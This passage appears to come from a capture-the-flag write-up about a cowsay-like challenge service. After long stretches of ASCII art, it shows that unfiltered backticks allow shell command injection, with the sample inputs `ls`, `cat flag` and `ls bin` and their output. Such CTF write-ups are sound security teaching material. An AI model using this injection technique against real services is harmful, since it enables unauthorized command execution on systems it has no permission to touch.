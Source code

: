 ```
                     ▄▄▄▄█▀▄▄▄█▄▄▄█▀   ▀▄▄███
                    ▄▄▄█▄▀ ▀▄▄█▄▄▄█     ███▄▀
                   ▄▄▄▄▄█   █▄▄▄█       ▀▀▀
                  █▄▄▄▄▄▀  █▄▄▄▄█

> .
 __________________
< I can't swear ;( >
 ------------------
 \
  \
   \
    ▄▄▄▄▄▄▄
    ▀▄▄████▄▄
  ▄▄▄█████▄█▄█▄█▄▄▄
 ██████▄▄▄█▄▄█████▄▄
 ▀▄▀ █████▄▄█▄▄█████
     ▄▄▄███████████▄▄▄
     ████▄▄▄▄▄▄███▄▄██           ▄▄▄▄▄▄▄
     ████▄████▄██▄▄███       ▄▄▄▄██▄▄▄▄▄▄
    █▄███▄▄█▄███▄▄██▄▀     ▄▄███████▄▄███▄▄
    ▀▄██████████████▄▄    ▄▄█▄▀▀▀▄▄█████▄▄██
       ▀▀▀▀▀█████▄█▄█▄▄▄▄▄▄▄█     ▀▄████▄████
            ████▄███▄▄▄▄▄▄▄▄▄     ▄▄█████▄███
            ▀▄█▄█▄▄▄██▄▄▄▄▄██    ▄▄██▄██████
             ▀▄████████████▄▀  ▄▄█▄██████▄▀
              ██▄██▄▄▄▄█▄███▄ ███▄▄▄▄▄██▄▀
              ██████  ▀▄▄█████ ▀████████
             ▄▄▄▄███   ███████ ██████▄█▄▄
             ███████   ████████▀▄▀███▄▄█▄▄
           ▄██▄▄████   ████████   ▀▄██▀▄▄▀
           █▄▄██████   █▄▄██████    ▀
             █▄▄▄▄█       █▄▄▄▄█
```

Lukily, it does not filter out the backtick (`` ` ``) character, which allows us
to perform command injection.

```
(art omitted for brevity)
> `
/bin/sh: 2: Syntax error: EOF in backquote substitution
> `ls`
 __________________________________
< bin flag lib lib64 server.py usr >
 ----------------------------------
> `cat flag`
 ________________
< I like cats :) >
 ----------------
> `ls bin`
 _______________________________________________________________
/ bash bunzip2 bzcat bzcmp bzdiff bzegrep bzexe bzfgrep bzgrep  \
| bzip2 bzip2recover bzless bzmore cat chgrp chmod chown cp     |
| dash date dd df dir dmesg dnsdomainname domainname echo egrep |
| false fgrep findmnt grep gunzip gzexe gzip hostname kill less |
| lessecho lessfile lesskey lesspipe ln login ls lsblk mkdir    |
| mknod mktemp more mount mountpoint mv nisdomainname nsjail od |
| pidof ps pwd rbash readlink rm rmdir run-parts sed sh         |
| sh.distrib sleep stty su sync tar tempfile touch true umount  |
| uname uncompress vdir wdctl which ypdomainname zcat zcmp      |
\ zdiff zegrep zfgrep zforce zgrep zless zmore znew             /
 ---------------------------------------------------------------
```
